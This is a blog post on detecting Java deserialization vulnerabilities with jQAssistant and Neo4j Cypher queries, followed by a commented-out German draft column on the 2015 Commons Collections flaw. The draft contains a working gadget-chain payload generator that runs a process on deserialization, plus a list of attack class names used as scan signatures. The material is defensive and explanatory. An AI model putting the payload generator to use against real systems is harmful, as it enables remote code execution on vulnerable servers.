

= Finding Security Vulnerabilities with Cypher and Neo4j

In this blog post I want to demonstrate how Neo4j and open source tools like http://jqassistant.org/get-started[jQAssistant] can be used to detect vulnerabilities in software systems.
Such issuses are usually based on certain execution patterns of code, which individually are harmless, but become critical when combined.

As an example I want to use the Deserialization Vulnerability that was hot news in November 2015.
I'd like to show you how you can test yourself for any combination of libraries, if similar issues can be triggered.

== The Java Deserialization RCE Vulnerability

At the beginning of November a wave of security alerts were raised in the Java ecosystem.
A large number of application servers, CI setups and other systems were reported to exhibit a remote code execution issue.

This issue is based upon the unchecked deserialization of untrustworthy user supplied data into Java objects.
During/after the deserialization process, methods were executed on objects resulting from that data which would eventually lead to arbitrary code execution on the JVM
and even on the host system (via `Runtime.exec`).

The issue was first presented by Chris Frohoff and Gabriel Lawrence already in January 2015 at AppSecCali2015.

It is built upon serializing an instance of a JDK-class (`AnnotationInvocationHandler`) which happens to call methods on the deserialized data in its `readObject` method.
This fact was combined with the ability of the _Apache Commons Collections_ project's ability to wrap collection classes in transformer facilities.
One of which (`InvokerTransformer`) can be configured to dynamically use methods for the value transformations using reflection on the JVM.
Combined with Java's ability to run operating system or other commands on the host machine via `Runtime.exec` it opens the door to arbitrary code execution.

Many Java servers accept serialized Java objects over the wire and deserialize that data within their process.
This happens for protocols like RMI, JMS and JMX but also often for custom RPC and other protocols.

Java code running on a server is not subject to the JVM security manager sandbox by default.
That's why this code execution is not protected against automatically.

But due to the complexity of the setup and the less pronounced presentation of the issue, it was mostly ignored by other researchers and the public.

Only in late October Code White researcher Matthias Kaiser, demonstrated in detail how to remoteley execute code on an Atlassian Bamboo installation.
This was picked up by Steve Breen who demonstrated similar vulnerabilities with other popular application servers (e.g. WebLogic, IBM WebSphere, JBoss, Jenkins, OpenNMS).
Without notifying the vendors of these products, he wrote a quite polemic blog post on the subject, which was quickly picked up by news outlets.

Most of the mentioned products and projects have released fixed versions of their software but there are certainly still a lot of vulnerable installations running.

== The Vulnerability Pattern

The basic pattern of this vulnerability is pretty straightforward.
It is more or less a long execution chain, which starts with an class that is serializable (i.e. transitively implements `java.io.Serializable`) and also contains a `readObject` method.
The chain ends with a call to `java.lang.reflect.Method.invoke()`.

Within that chain you have invocations either directly on target methods or on methods on interfaces / base-classes that are then implemented by methods transitively leading to the expected chain end.

This is a visual representation:

image::../img/model_arrows.jpg[]

In a graph model you can represent code as a graph with Nodes for _packages, classes, interfaces, methods, fields, parameters_ and Relationships for _inheritance, delegation, invocation, read- and write operations_.

In such a model then declaring the start- and end-method becomes straightforward and the arbitrary long execution-chain turns into a shortest-path operation.

Fortunately there are tools that provide this out of the box. Meet jQAssistant.

In my first encounter with Neo4j in 2008 I experimented with loading the JDK class library into Neo4j using the aforementioned model, even without Cypher this was really fast and fun to play with.
Years later I had a long conversation with my friend Dirk Mahler about software analytics with graphs, around code-quality, software-erosion, architectural rules and the lack of flexibility in commercial tools.

Our discussions eventually led to the creation to the open-source project jQAssistant, which is a software analytics toolkit built upon Neo4j, Cypher and an extensible plugin system.
Basically it uses plugins to parse information not only from source code but also many other sources (build-files, database-metadata, descriptors, config-servers and many more).
The initial graph model from that raw data is then enriched using provided concepts and custom techncial (e.g. Service,Test,UI-Component) and business (e.g. Order-Management, Recommendation-Engine, User-Profile) concepts. 
In most cases these are applied as node-labels representing higher level concepts but can also be more complex graph structures.

Based on the enriched raw graph data, you can compute metrics and output reports for your software project.
But most interestingly you can create your own architectural constraints or other rules that the entirety of your project should adhere to.
If the constraints return offending violations, then those are reported and your project build can be made to fail.

All concepts, constraints, metrics and reports are declared as Cypher statements, either in self-documenting text documents or XML descriptors.
Each of them can depend on others, so during their application requirements are automatically resolved and you only run the minimal set of Cypher statements necessary.

You can use the full richness of Cypher to match patterns, compute cardinalities or compare collections of elements.

More details about jQAssitant can be found on the http://jqassistant.org[project site], in http://jqassistant.org/blog[dedicated blog posts] and http://jqassistant.org/dcos[the extensive documentation].

Now let's see how we can use this toolset to find security vulnerabilities in our code.

image::../img/jqa_model[]

== Locate the Pattern using jQAssistant and Cypher

After http://jqassistant.org/download[downloading jQAssistant], you can simply scan a folder containing the relevant JAR-files.
In our case the `rt.jar` from the JDK and the `commons-collections.jar` from Apache Commons Collections.
For your own use-case it makes sense to scan the combination of jars you use in your application-server and/or project.

----
bin/jqassistant.sh scan -f lib/*.jar
----

If you just want to explore the scanned data, you run the Neo4j server with:

----
bin/jqassistant.sh server
----

First, let's think about what we're looking for.
We discussed it above in prose.
What would it look like as Cypher statements using the jQAssistant Java-plugin graph-model.

If we start with the endpoints of our vulnerability execution chain:

.Serializable classes that implement `readObject` (393 classes)
[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]-(class),
      (class)-[:DECLARES]->(m:Method {name:"readObject"})
RETURN count(*);
----

Calls of the method `java.lang.reflect.Method.invoke()`: (258 calls)
[source,cypher]
----
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method {name:"invoke"})
RETURN size(()-[:INVOKES]->(m)) as invocations;
----

To enrich our existing model, so that is more suitable for scanning across jars and along method overrides we need to run two additional concepts.
Both of which are provided by the Java-Plugin but not applied by default.

----
bin/jqassistant.sh analyze -concepts classpath:Resolve,java:MethodOverrides
----

////
match (t:Type) where t.fqn =~ "org.apache.commons.collection.*"
match (m:Method)<-[:DECLARES]-(t:Type)-[:EXTENDS|IMPLEMENTS]->(t0)-[:DECLARES]->(m0)
where m.name = m0.name
merge (m)<-[:OVERRIDDEN_BY]-(m0)
return count(*);
////

Now we have everything in place to determine the transitive connection between deserializing objects which from within `readObject` call `Method.invoke()` over several intermediate steps.

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(serialized:Class)-[:DECLARES]->(readObject:Method {name:"readObject"})
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(invoke:Method {name:"invoke"})

MATCH path = shortestPath((readObject)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 

RETURN serialized,path
ORDER BY length(path) ASC LIMIT 10;
----

Here you can see one of the many paths that represent a potential vulnerability and could / should be examined more closely.

This was just one example how software analytics with Neo4j can be used to immediately acquire highly valuable information about your software projects.

There are many more applications:

* manage consistency of transitive library dependencies of a multitude of projects
* infer software modules from an unstructured codebase
* incrementally improve software quality by using team-provided language or architectural rules
* assert synchronization between database (or other) metadata and related code
* structural search of "interesting" code structures
* generate graph visualizations with virtual nodes and relationships that aggregate lower level metrics and dependencies
* manage service or component visibility and discoverability even in absence of a module system
* enrich static structural information with runtime trace information, heap structures, test execution results, build information, component interactions to discover new insights or support decisions for your team or yourself
* render information derived from the graph as interactive graphs, charts, diagrams, city-maps with drill-down and comparison abilities

If you have other cool ideas of what you could achieve by treating information around software projects as a graph, mailto:michael@neo4j.com[please let me know].
You can also join our http://groups.google.com/group/graph-software-analytics[graph-software-analytics google group] and share your ideas or related projects there.

////
= Operation Sorglos: Deserialisierung in Java
Michael Hunger <javaspektrum@jexp.de>

== Einem geschenkten (Trojanischen) Gaul schaut man besser ins Maul

Im November 2015 hat eine kritische Sicherheitslücke die Java- und IT-Welt aufgewühlt. 
Zum Teil wurde sie als "kritischer als Heartbleed" eingeschätzt.
In der heutigen Kolumne will ich sie etwas näher beleuchten und die Hintergründe darstellen.

== Eine Geschichte in 3 Akten

Interessanterweise wurde der Angriffsvektor schom Ende Januar auf der AppSecCali2015 Konferenz von Gabriel Lawrence und Chris Frohoff von Qualcom im Rahmen einer umfangreicheren Präsentation zum Thema "Angriffe durch ungesicherte Deserialisierung von Nutzerdaten" ("Marshalling Pickles – how deserializing objects will ruin your day") präsentiert.

====
Der Angriff nutzt den ungesicherten Aufruf von Methoden auf deserialisierten Daten während oder nach der Deserialisierung aus.
Wenn die transitiv aufgerufenen Zielmethoden, potentiell Schadcode ausführen können, ist das Ziel der Angreifer erreicht.

Die serialisierten Daten wurden *in diesem Beispiel* mittels Hilfsklassen der Apache Commons Collections Bibliothek präpariert, 
welche die transparente Transformation von Werten in Containerobjekten, hier sogar dynamisch durch Nutzung von Reflection erlauben.
====

Dabei wurde neben dem Angriff auch ein Tool gezeigt, dass entsprechende Schad-"Nutz"-daten erzeugen kann.
Da diese Angriffsmöglichekeit aber eher unspektakulär neben anderen Programmiersprachen und Ansätzen dargestellt wurde, 
scheint er der Aufmerksamkeit der Öffentlichkeit und auch anderer Sicherheitsexperten entgangen zu sein.

Erst ein sehr interessanter Vortrag von Matthias Kaiser (Code White, Ulm) Ende Oktober an der Ruhr Uni Bochum, ging detaillierter auf die Sicherheitslücke ein 
und demonstrierte die Ausnutzbarkeit live am Beispiel einer (seither gefixten) Version von Atlassian Bamboo.

Das spornte Steve Breen (Foxglove Security) an, diese Sicherheitslücke genauer unter die Lupe zu nehmen und zu zeigen, dass häufig genutzte Java Web- und Applicationserver (u.a. WebLogic, IBM WebSphere, JBoss, Jenkins, OpenNMS) anfällig für diesen Angriff waren.
Dieser auch etwas theatralische Artikel hat dann die weltweite "Welle des Entsetzens" ausgelöst, die wir im November erlebt haben.
Wie zu erwarten war, haben sich viele der nachfolgenden Berichterstatter nicht die Mühe gemacht, die Hintergründer zu verstehen und akkurat zu berichten.
Leider hat Steve Breen es nicht für nötig gehalten, die betroffenen Produkte vor der Veröffentlichung seines Artikels zu benachrichtigen, was normalerweise bei solchen erstmalig nachgewiesenen, kritischen Sicherheitslücken (Zero-Day-Exploit) Usus ist.

Zum einen nehmen sie auf verschiedene Weise, serialisierte Java-Objekte über das Netzwerk entgegen und deserialisieren sie ungesichert.
Desweiteren sind Bibliotheken im Klassenpfad enthalten, die zur Ausnutzung dieses Verhaltens genutzt werden können.

Dieser Angriff konnte nur verhindert werden, indem man die entsprechenden Klassen (z.B. `InvokerTransformer`) aus der Jar-Dateien der Bibliotheken entfernt.

Mittlerweile wurden aktuelle Versionen (3.2.2, 4.1) von Apache Commons Collections veröffentlicht, die die Serialisierbarkeit dieser Klassen standardmässig abschaltet, aber sie in vertrauenswürdigen Umgebungen durch eine System-Property wieder aktivieren lässt.
Auch für andere Bibliotheken wie Groovy (2.4.4) und Spring (4.1.9, 4.2.3) sind Versionen verfügbar, die nicht mehr für diesen Angriff genutzt werden können.

Da Java-Deserialisierung, besonders auch von Daten, die über das Netzwerk empfangen werden, in der Java Welt gang und gäbe ist (dazu später mehr), 
ist es sehr wahrscheinlich, dass dies nicht die einzige schadhafte Kombination darstellt.

Leider wurde bisher noch nicht genügend Augenmerk auf die Absicherung des Deserialisierungs-Mechanismus gelegt.
Es bleibt zu hoffen, dass Oracle selbst dafür sorgt, dass während der Deserialisierung selbst, der transitive Aufruf bestimmter, potentiell gefährliche Methoden abgeblockt wird. Aber selbst nach einer erfolgreichen Deserialisierung sollte man Daten, die aus nicht vertrauenswürdigen Quellen stammen, und plötzlich als aktives Objekt in der eigenen JVM leben, mit entsprechender Vorsicht begegnen.

Zum Glück muss man nicht nur auf Sicherheitsexperten vertrauen, sondern kann sich mit einigen quelloffenen Tools selbst ein Bild davon verschaffen, 
ob die eigene Infrastruktur potentiell gefährliche Kombinationen enthält.

Die Stimmen, die der Apache Bibliothek die Schuld an allem gaben haben natürlich nicht aufgepasst. Zwar machen die dort vorhandenen Klassen es leichter die Sicherheitslücke auszunutzen, aber das Grundproblem liegt am sorglosen Umgang mit Daten aus nicht vertrauenswürdigen Quellen.

Im Statement der Apache Foundation ist auch genau das nachzulesen:

____
It is not Apache Commons Collections that is unsafe, it is applications which use Java Serialization in an unsafe way.

If anybody asks you whether an application is unsafe because of Apache Commons Collections, 
explain to them that deserializing untrusted data is unsafe, not the presence of generally useful libraries.
____

== Art des Angriffs

Der Angriff gehört zu einer noch relativ unerforschten, neuen Klasse von Ansätzen, die davon ausgehen, dass ungesicherte Deserialisierung von Objekten, die von ausserhalb kommen, eine weitverbreitete Sicherheitslücke darstellt. 
Dabei ist nicht die Deserialisierung ein Problem, sondern dass sie nicht genügend gegen böswillige Nutzlast abgesichert ist.
Wie bei vielen Angriffen werden auch hier mehrere Konstrukte kombiniert, die nur gemeinsam dazu führen, dass man durch die Deserialisierung eines Objektes freien Zugriff auf Reflection-Aufrufe bekommt.
Mit denen hat man man natürlich vollen Zugriff auf beliebige Klassen und Methoden innerhalb der JVM, besonders aber durch Aufrufe von `Runtime.getRuntime().exec()` auch mit den Rechten des Benutzers auf dem Recher auf dem die Java Anwendung läuft.

Eigentlich ist die JVM ja für ihre Sandbox bekannt, leider diese ist aber nur zwangsweise bei Applets und Webstart-Anwendungen aktiv.
Die meisten Java-Server und Desktopanwendungen laufen ohne `SecurityManager` und können somit beliebige Operationen auf der Maschine ausführen.
Meist wird das mit Leistungseinbussen und der Komplexität der Konfiguration von `Permissions` für den Security-Manager begründet.
Abgesicherter Bytecode muss auch in signierten Jars vorliegen, so dass sichergestellt werden kann, dass niemand zwischenzeitlich Veränderungen am Bytecode vorgenommen hat.

Das etwas skurrile Konstrukt das für das Ausnutzen dieser Sicherheitslücke notwendig ist, beleuchten wir gleich etwas im Detail.

Zuerst aber noch etwas zu den Grundlagen der (De-)Serialisierung in Java.

== Serialisierung in Java

Seit den ersten Versionen von Java war es bequemlicherweise leicht möglich, Java Objekte zu serialisieren, indem man es in einen ObjectOutputStream schreibt, dessen Ausgabe dann entweder als Datei auf der Festplatte, Datenstrom im Netz oder in einem Byte-Array landet.

Serialisierbar ist ein Objekt, wenn es direkt oder indirekt `java.io.Serializable` implementiert und all seine nicht-transistenten Felder entweder primitiv oder auch serialisierbar sind.
Es ist anzuraten für die Handhabung der Kompatibilität zwischen Versionen von Klassen ein Long-Feld namens `serialVersionUID` anzulegen, dessen Inhalt geändert werden muss, wenn sich die Klasse inkompatibel zu Vorgängerversionen geändert hat.

Die zweite Anforderung kann mittels spezieller Methoden, `writeReplace` und `writeObject` umgangen werden.
Dabei kann man in der `writeObject`-Methode die Serialisierung selbst im Einzelnen kontrollieren, z.B. um eine effizientere Speicherung von aufwendigen Datenstrukturen vorzunehmen. Bei `writeReplace` kann man statt des aktuellen Objektes, eine andere Instanz zur Serialisierung nominieren.

Bei der Serialisierung wir der Objektbaum rekursiv durchgegangen und beginnend beim Wurzelobjekt bis zu allen primitiven Feldern Repräsentationen als Bytes in den Datenstrom geschrieben. Falls es sich um einen Objektgraphen mit Zyklen handelt werden für schon gesehene Objekte nur noch Marker geschrieben.

Hier sehen wir die Serialisierung eines einfachen Objektes und die Binärdarstellung des Ergebnisses, in dem man Klassennamen der Instanzen und ihre Inhalte sehr schön erkennen kann.

[source,java]
----
static class Magazine implements Serializable {
    String title;
    LocalDate date;
    int pages;
}

public static void main(String[] args) throws Exception {
    Magazine javaSpektrum = new Magazine("JavaSpektrum 6/2015", 
                                 LocalDate.of(2015,11,20), 66);
    ObjectOutputStream oos = new ObjectOutputStream(
                          new FileOutputStream("magazin.ser"));
    oos.writeObject(javaSpektrum);
    oos.close();

    Magazine gelesen = (Magazine)new ObjectInputStream(
	                   new FileInputStream("magazin.ser"))
	                   .readObject();

    assert gelesen.title.equals(javaSpektrum.title) && 
           gelesen.date.equals(javaSpektrum.date) &&
           gelesen.pages == javaSpektrum.pages;
}
----

.hexdump -C magazin.ser 
----
00000000  ac ed 00 05 73 72 00 22  65 78 61 6d 70 6c 65 2e  |....sr."example.|
00000010  53 65 72 69 61 6c 69 7a  61 74 69 6f 6e 54 65 73  |SerializationTes|
00000020  74 24 4d 61 67 61 7a 69  6e 65 44 5d 53 78 5d 43  |t$MagazineD]Sx]C|
00000030  95 e8 02 00 03 49 00 05  70 61 67 65 73 4c 00 04  |.....I..pagesL..|
00000040  64 61 74 65 74 00 15 4c  6a 61 76 61 2f 74 69 6d  |datet..Ljava/tim|
00000050  65 2f 4c 6f 63 61 6c 44  61 74 65 3b 4c 00 05 74  |e/LocalDate;L..t|
00000060  69 74 6c 65 74 00 12 4c  6a 61 76 61 2f 6c 61 6e  |itlet..Ljava/lan|
00000070  67 2f 53 74 72 69 6e 67  3b 78 70 00 00 00 42 73  |g/String;xp...Bs|
00000080  72 00 0d 6a 61 76 61 2e  74 69 6d 65 2e 53 65 72  |r..java.time.Ser|
00000090  95 5d 84 ba 1b 22 48 b2  0c 00 00 78 70 77 07 03  |.]..."H....xpw..|
000000a0  00 00 07 df 0b 14 78 74  00 13 4a 61 76 61 53 70  |......xt..JavaSp|
000000b0  65 6b 74 72 75 6d 20 36  2f 32 30 31 35           |ektrum 6/2015|
000000bd
----

Wie man sehen kann, beginnt der Binärcode immer mit dem Marker `ac ed 00 05`, die man auch nutzen kann, um ggf. im Datenstrom der eigenen Java-Server nach potentiell serialisierten Java-Objekten zu suchen.
Falls diese als base-64 formatierte Daten gesendet werden, beginnt der Datenblock dann mit `rO0`.

Soweit keine Überraschungen. Jetzt zur Deserialisierung, die eigentlich ähnlich einfach abläuft.

. Aus einem `ObjectInputStream` liest man die geschriebenen Objekte. 
. Von diesen werden Instanzen erzeugt, ohne den Konstruktor aufzurufen!
. Dann werden rekursiv wieder die Felder gelesen, ggf. weiter Objekte instanziiert. 
. Falls irgendwo durch den Wechsel der Klassensignatur oder der `serialVersionUID` eine Inkompatibilität ergibt, bricht das Laden mit einem `InvalidClassException` (oder einer anderen Exception) ab.

Wie beim Schreiben der Objekte, kann die Deserialisierung mittels eigener Methoden gesteuert werden.
Mit `readResolve` kann man statt des gelesenen Objektes ein anderes zurückgeben, was z.b. bei Singletons wie Enums genutzt wird.
Die Implementierung von `readObject` kann das Lesen des Objektes wieder voll kontrollieren, so z.B. auch nachgelagerte Initialisierungen vornehmen.

Und dort fängt der Spass an... 

Wenn während der Deserialisierung, noch bevor man die Objektinstanz zurückbekommt, aktiv Methoden auf Feldern der Klasse aufgerufen werden, deren Inhalt gerade erst aus einer nicht-vertrauenswürdigen Quelle wiederhergestellt wurde, kann man sich vorstellen, dass Dinge passieren, die man vermeiden möchte.

Im einfachsten Fall gibt es einen Fehler während dieses Zugriffs und die Methode die die Deserialisierung veranlasst hat (und ggf der Thread) werden abgebrochen. Das kann schon für eine kleine Denial-of-Service Attacke ausgenutzt werden. 
Desweiteren können grosse Datenmengen oder Endlosschleifen verursacht werden (z.B. durch Selbstreferenzen die zu rekursiven Aufrufen führen).
Aber auch das ist noch nicht schlimm. 

Freien Zugriff auf die JVM gibt es, wenn Inhalte der Felder genutzt werden können, um frei Operationen innerhalb der JVM auszuführen, z.B. mittels Reflection, Proxies oder `javax.ScriptEngine`s.

== Anwendungsbereiche für Serialisierung

Ganz am Anfang, wurde Serialisierung in Java dafür genutzt, den Zustand einer Anwendung zu persistieren, daher sind kurioserweise viele AWT- und Swing-Klassen serialisierbar und mit diversen Details darüber versehen. 
Bald lag der Fokus aber auf dem Serialisieren von komplexen Daten z.B. um sie auf Festplatte oder in Datenbanken als Blob zu speichern oder über das Netzwerk zu transportieren oder als Methodenparameter und Rückgabewerte für RPC via RMI zu nutzen.
Bei all diesen Ansätzen kann man der Anwendung präparierte Daten unterschieben, über das (offene) Netzwerk geht es aber am einfachsten.
Und Objekt-Serialisierung wird bei diversen Netzwerkprotokollen im Java-Umfeld eingesetzt: RMI, RMI-über-HTTP, JMX, JMS, Spring-Invoker, teilweise für Http-Cookies usw.
Daher gibt es in den meisten Server-Anwendungen genügend Einfallstore, um gemeingefährliche Daten einzuschleusen.

Um eine solche Attacke erfolgreich auszuführen, benötigt man also die folgenden Zutaten.

== Erfolgsrezept

Wie in der Einleitung schon erläutert, benötigt man für diese Art von Angriff eine Kombination von drei Verhaltensweisen, die gemeinsam zum Erfolg führen.

. Muss es die Anwendung serialisierte Objekte entgegenzunehmen und diese ohne weitere Prüfung zu deserialisieren.
. Zum zweiten muss eine zu deserialisiere Klasse vorliegen, die `readObject` implementiert und in der Methode auf den soeben deserialisierten eigenen Feldern Methode aufruft
. Die wiederhin transitiv über mehrere Ecken potentielle gefährliche Methoden aufrufen, wenn möglich mit den präparierten Nutzdaten

Im von Matthias Kaiser gezeigten Beispiel wurde ein Servlet von Atlassian Bamboo genutzt, das Nutzdaten deserialisiert.
Die serialisierbare `TransformedMap`, konfiguriert einem `InvokerTransformer` aus Apache Commons Collections liefert uns die Schadmethode - den dynamischen Aufruf von `Method.invoke()`, die sogar mit ihren Parametern serialisierbar sind.
Damit benötigt man nur noch ein deserialisierbares Objekt, dass in seinem `readObject` auf einem eigenen `Map`-Feld die Methode `Map.Entry.setValue()` aufruft, um den genannten Transformer zu triggern. 
Das stellt uns Sun, mit dem `AnnotationInvocationHandler` zur Verfügung, der im `readObject` prüft, ob die de-serialisierte Ziel-Annotationsklasse immer noch denselben Elementtyp für ihr Attribute hat, die in einer ebenfalls de-serialisierten `Map`!! gespeichert sind. 
Falls nicht, wird mittels `Map.Entry.setValue()` ein ExceptionProxy statt des Originaltyps gesetzt, was dann unseren gemein vorkonfigurierten `InvokerTransformer` triggert.

Die Serialisierung der genannten Konstruktion sieht im konkreten so aus, als dynamisch aufzurufende Methode, wurde natürlich `Runtime.getRuntime().exec()` gewählt, um den möglichen Schaden zu maximieren:

.Demo zum Starten eines OSX-Calculators mittels ProcessBuilder beim Deserialisieren
[source,java]
----
public class PayloadGenerator {
    public static void main(String[] args) throws Exception {
        final String[] execArgs = new String[] {
                "/Applications/Calculator.app/Contents/MacOS/Calculator" };

        // invoking new ProcessBuilder(execArgs).start()
        final Transformer transformers = new ChainedTransformer(
            new ConstantTransformer(ProcessBuilder.class),
            new InstantiateTransformer(new Class[]{String[].class},new Object[]{ execArgs }),
            new InvokerTransformer("start", null,null));

        // preparing fieldMap for @Target.value == "value"
        String annotationFieldName = Target.class.getDeclaredMethod("value").getName();
        final Map annotationFields = singletonMap(annotationFieldName,"foo");

        // decorating map with process starting transformers
        TransformedMap transformedMap =
                TransformedMap.transformingMap(annotationFields, null, transformers);

        // setting up AnnotationInvocationHandler with prepared instancedata to be serialized
        Class<?> type = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = type.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object handler = constructor.newInstance(Target.class, transformedMap);

        // serializing handler
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("transformer.ser"));
        oos.writeObject(handler);
        oos.close();

        // demonstrating deserialization starts calculator
        new ObjectInputStream(new FileInputStream("transformer.ser")).readObject();
    }
----

Ich habe, um das ganze etwas zu vereinfachen, dagegen `new ProcessBuilder(args).start()` aufgerufen, und den Code etwas vereinfacht.
Um zu zeigen, dass es vollkommen egal ist, ob die Deserialisierung erfolgreich ist, habe ich als Map-Instanz `Collections.singletonMap` benutzt, die unveränderlich ist,
also gar kein `Map.Entry.setValue()` zulässt.
D.h. obwohl der eigentliche `setValue` Aufruf fehlschlägt, wird der Transformer vorher noch ausgeführt und started den Calculator, wie man anhand des Stacktraces im Screenshot auch sehr schön sehen kann.

image::deserialize_vulnerability_demo.jpg[]

Die originalen Forscher stellten ein Tool (ysoserial) bereit, dem man nur noch den Unix-Shell-Befehl mitgeben musste, den man auf dem Server ausgeführt haben möchte, und welches dann den korrekten serialisierten Binärdump erzeugt.

.Beteiligte Klassen
[options=header]
|===
|Klasse| Zeile | Aufruf | in Methode | Link
| AnnotationInvocationHandler | 355 | Map.Entry.setValue | readObject |
http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/7u40-b43/sun/reflect/annotation/AnnotationInvocationHandler.java#356

| TransformedMap | 218 | transformer.transform | checkSetValue |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/map/TransformedMap.java#L218

| AbstractInputCheckedMapDecorator.MapEntry | 201 | parent.checkSetValue | setValue |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/map/AbstractInputCheckedMapDecorator.java#L201

| InvokerTransformer | 134 | method.invoke | transform |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/functors/InvokerTransformer.java#L134
|===

== Schutzkreis

Wie kann man sich gegen solche Sicherheitslücken schützen?
Es ist ziemlich schwierig, weil die Verantwortung, sowohl bei Oracle als auch den Application-Server Herstellern liegt, die Deserialisierung von vertrauensunwürdigen Quellen besser abzusichern. 
Wenn die eigene Anwendung so etwas macht, sollte man tunlichst darauf achten, an diesen Stellen keinen aktiven Code auf deserialisierten Werten aufzurufen, und diese auch noch einmal zur Sicherheit in bekannte Datenstrukturen zu kopieren.

Für die bisher gefundene Lücke, wird empfohlen, die Apache Commons Collection Bibliothek aktualisieren auf 3.2.2 oder 4.1. 
Falls das nicht möglich ist, kann man die Jar-Datei der Bibliothek modifizieren, und die InvokerTransformer Klasse entfernen.

Man kann den Datenstrom eigener Java-Server überwachen und Pakete mit den Signaturen von Java-Serialisierung abblocken oder zumindest loggen.
Desweiteren kann nach den, im Angriff genutzten Klassennamen gescannt werden, dabei kann entweder die Paketschreibweise oder die Datei-Notation mit Schrägstrichen (`/`) statt Punkten vorkommen.

* org.apache.commons.collections4?.map.TransformedMap
* org.apache.commons.collections4?.Transformer
* org.apache.commons.collections.functors.InvokerTransformer
* org.codehaus.groovy.runtime.ConvertedClosure
* com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
* sun.reflect.annotation.AnnotationInvocationHandler

Einen sinnvollen Ansatz stellt der quelloffene Java Agent "NotSoSerial" von Eirik Bjørsnøs dar, der den Deserialisierungsvorgang kontrolliert und neben Blacklisting der bekannten, problematischen Klassen, ein Whitelisting und eine Protokollierung von deserialisierten Klassen erlaubt.

Da der Ansatz jetzt jetzt erst einmal bekannt ist, sollte es nicht zu schwer sein, ähnliche Kombinationen mit anderen häufig genutzten Bibliotheken und Tools zu finden.
Wir können uns also auf weitere, ähnliche Lücken freuen. Im schlimmsten Fall werden dass Varianten sein, die direkt in den Standardklassen von Java vorliegen.

Interessanterweise ist es gar nicht so schwierig, solche Lücken aufzuspüren, wenn die zugrundeliegende Schadenskombination erst einmal bekannt ist.
Ich möchte zum Abschluss einmal darstellen, wie man selbst mit open-source Hilfsmittel zu denselben Erkenntnissen kommen kann, wie die Sicherheitsforscher wie Chris Frohoff & Co.

== Nadel im Heuhaufen

Softwareanalyse mit Graphdatenbanken ist eines meiner Lieblingsthemen. 
Mit dem quelloffenen Framework jQAssistant ist es schnell möglich vorliegende Java-Anwendungen und Bibliotheken zu scannen.
Die ermittelten Informationen werden in der Graphdatenbank Neo4j als vernetzte Strukturen aus Klassen, Methoden, Interfaces, Paketen, Felder usw. abgelegt die eine Vielzahl von Beziehungen (Vererbung, Deklaration, Benutzung, Aufruf usw.) zu einander haben.

jQAssistant selbst kommt mit einer Menge von Plugins für das Scannen verschiedenster Quellinformationen, aber auch einer Reihe von Konzepten für die Anreicherung der Rohdaten mit abgeleiteten fachlichen und technischen Markern und Beziehungen. 
Desweiteren stellt es noch Reports für Softwarequalität und Metriken bereit.
Durch die Definition von eigenen Regeln ist es möglich, Softwarearchitektur und andere Qualitätseigenschaften unserer Softwareprojekte abzusichern.
All diese Bestandteile sind frei definierbar und leicht selbst zu schreiben, da sie auf Neo4j's Abfragesprache Cypher basieren.

Nach dem Download von jQAssistant scannen wir die relevanten Bibliotheken, in unserem Fall `rt.jar` vom JDK und `apache-commons-collections4.jar`, mittels: `bin/jqassistant.sh scan -f `lib/*.jar`.

Danach wenden wir zwei Konzepte an, zuerst zum Zusammenführen der Klassen aus verschiedenen Jars: 
Und dann zur Verknüpfung von überschriebenen Methoden, mittels einer `OVERRIDDEN_BY` Beziehung.

Damit haben wir alle notwendigen Werkzeuge in der Hand, um kritische Aufrufketten auf der Basis folgender Grundannahme zu finden:

--
Während der Deserialisierung eines serialisierbaren Objektes werden in dessen `readObject` Methode transitive Aufrufe auf den deserialisierten Daten ausgeführt, die schlussendlich bei `Method.invoke()` ankommen.
--

Mittels Neo4j's Abfragesprache Cypher können wir die beiden notwendigen Enden der Kette abbilden.

Klassen, die transitiv `Serializable` implementieren, und eine `readObject` Methode enthalten: (393 Klassen)

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]-(class),
      (class)-[:DECLARES]->(m:Method {name:"readObject"})
RETURN count(*);
